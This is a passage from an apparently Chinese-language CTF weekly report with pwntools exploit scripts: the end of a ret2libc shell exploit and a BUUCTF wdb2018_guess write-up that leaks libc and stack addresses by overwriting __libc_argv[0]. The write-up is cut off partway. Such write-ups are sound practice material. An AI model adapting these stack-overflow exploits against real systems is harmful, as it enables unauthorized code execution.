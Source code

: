 ```python
payload = b'A' * offset + p64(pop_rdi_ret) + p64(libc_binsh) + p64(libc_system) 

ru("Please tell me:")
raw_input("Ther")
sl(payload)

shell()
```

## 5.BUUCTF-wdb2018_guess
将flag读入到buf中 开启了canary 并且给了3次栈溢出的机会（通过fork进程）

<img width="518" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/fec5e5aa-9943-4780-9a1d-5210159968ae">

首先想到可以覆盖__libc_argv[0] 但不知道buf的地址在哪里 学习到可以通过泄漏libc

从而泄漏libc的__environ的值 这个值保存着一个栈地址（指向环境变量）

所以3次栈溢出可以构造为 

1.覆盖__libc_argv[0]为put_got 泄漏libc地址

2.覆盖__libc_argv[0]为libc__environ 泄漏栈地址

3.找到泄漏的栈地址与buf的偏移 覆盖__libc_argv[0]为buf地址 泄漏flag

### exp_GUESS.py
```python
from pwn import *
# p = process("./GUESS")
p = remote("node4.buuoj.cn",28526)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("/mnt/hgfs/ubuntu/BUUCTF/source/ubuntu16/libc-2.23-64.so")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

puts_got = 0x000000000602020

# 1.leak libc
payload = b'A' * 0x128 + p64(puts_got)
ru("Please type your guessing flag\n")
sl(payload)

ru("*** stack smashing detected ***: ")

libc_puts = u64(ru('\x7f').ljust(8, '\x00'))
success("libc_puts ==> {}".format(hex(libc_puts)))

libc_base = libc_puts - libc.symbols['puts']
success("libc_base ==> {}".format(hex(libc_base)))

libc_environ = libc_base + libc.symbols['__environ']
success("libc_environ ==> {}".format(hex(libc_environ)))

```